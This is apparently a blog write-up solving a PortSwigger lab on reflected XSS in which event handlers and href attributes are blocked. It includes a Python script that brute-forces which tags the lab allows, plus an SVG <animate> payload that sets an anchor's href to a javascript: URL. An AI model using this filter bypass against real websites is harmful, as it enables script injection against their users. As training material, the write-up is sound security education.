



## Introduction

This is the 27th lab in PortSwigger's XSS series, titled [Reflected XSS with event handlers and href attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked). It has some whitelisted tags, but all the events and anchor `href` attributes are blocked, so let's try to solve it.

## Recon

We have the usual blog post with the same search bar, as shown in the following image.


When we try to insert `<h1>Hello</h1>`, we get blocked with a server error that says this tag is not allowed, as shown in the following image.



Since there are only some whitelisted tags, the best way is to brute force them using either a custom script or Burp.

## Brute Force Whitelisted Tags

I created the following custom Python script to see which tags are allowed and which are not.

```py
import requests

with open ("tags.txt", "rt") as f:

	tag = f.readline()
	tag = tag.strip()

	tag = f'<{tag}>'


	while f.readline():
		r = requests.get(f"https://0aef00bf0494832d80f4086b002f0044.web-security-academy.net/?search={tag}")

		if 199 < r.status_code < 300:

			with open ("whitelisted.txt","at") as ff:

				ff.write(tag+'\n')
		

		tag = f.readline()
		tag = tag.strip()

		tag = f'<{tag}>'
```

We got the following list:

```html
<a>
<animate>
<svg>
<title>
```

Based on those whitelisted tags, we need to craft a payload with those limited resources.

## Payload Craft

After some research, I found that the `<animate>` tag is an interesting one. Since I knew nothing about it, I researched it and found that the `<animate>` tag changes the values of attributes over time. That is how animation happens: by changing width or height over time, as shown in the following code.

```html
<svg viewBox="0 0 10 10" xmlns="http://www.w3.org/2000/svg">
  <rect width="10" height="10">
    <animate
      attributeName="rx"
      values="0;5;0"
      dur="10s"
      repeatCount="indefinite" />
  </rect>
</svg>
```

Here, `animate` is going to add a new attribute named `rx` to `rect` and change its values to `0`, `5`, and `0` every 10 seconds with an infinite repeat.

So, if we experiment by putting an anchor tag instead of `rect`, putting `href` instead of `rx`, and making the values a JavaScript URL, this may work.

```html
<svg>
  <a>
    <text>Click</text>
    <animate attributeName="href" values="javascript:alert()">
  </a>
</svg>
```

We added `<text>` since, without it, SVG cannot show text.

With that, if we insert this payload, we can click on "Click," and the lab is solved.





## Conclusion

This was a nice and clever lab. What I learned is that with limited resources, a security researcher should know how to act with proper research and knowledge.
